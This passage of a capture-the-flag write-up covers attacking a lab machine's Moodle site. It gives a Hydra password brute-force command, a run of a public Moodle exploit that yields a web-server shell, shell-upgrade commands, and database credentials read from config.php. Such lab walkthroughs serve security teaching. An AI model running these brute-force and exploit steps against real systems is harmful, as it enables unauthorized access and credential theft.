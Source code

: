 ![image](assets/85214139-5d68a880-b335-11ea-9542-c9fba0617a57.png)

![image](assets/85214167-c5b78a00-b335-11ea-80b8-1b833bb7af9e.png)

The command was built as follows:

```
hydra -l giovanni -P passwords.txt 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^:Invalid Login"
```

The command succeeds and shows password as **Th4C00lTheacha#**

![image](assets/85214237-6a39cc00-b336-11ea-9a8d-4a7dbeccd8a0.png)

Heading back over to http://10.10.10.153/moodle/login/index.php I was able to log in as giovanni

![image](assets/85214267-9d7c5b00-b336-11ea-9c4a-81b7d24b369f.png)

Now that I had credentials I could use the moodle exploit. Reading the exploit the syntax is

![image](assets/85214298-f0561280-b336-11ea-8449-ec8bbb604fbd.png)

```
php 46551.php url=http://10.10.10.153/moodle user=giovanni pass=Th4C00lTheacha# ip=10.10.10.153 port=80 course=2
```

> Note: Trying course=1 showed an error from the script asking if the script belonged to the teacher so I changed it to 2.

Received shell as www-data

![image](assets/85214492-7d9a6680-b339-11ea-9c40-0b9cbda6061f.png)

I upgraded to a fully functioning shell by running the following commands.
```
python -c 'import pty;pty.spawn('/bin/bash')'
CTRL+Z
stty raw -echo
fg <enter><enter>
export SHELL=/bin/bash
export TERM=xterm-color
```

mariadb password

![image](assets/85214516-fd283580-b339-11ea-9e50-bba7556ae689.png)

```
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';

```
I logged into mysql via the cli using the password found in config.php **Welkom1!**
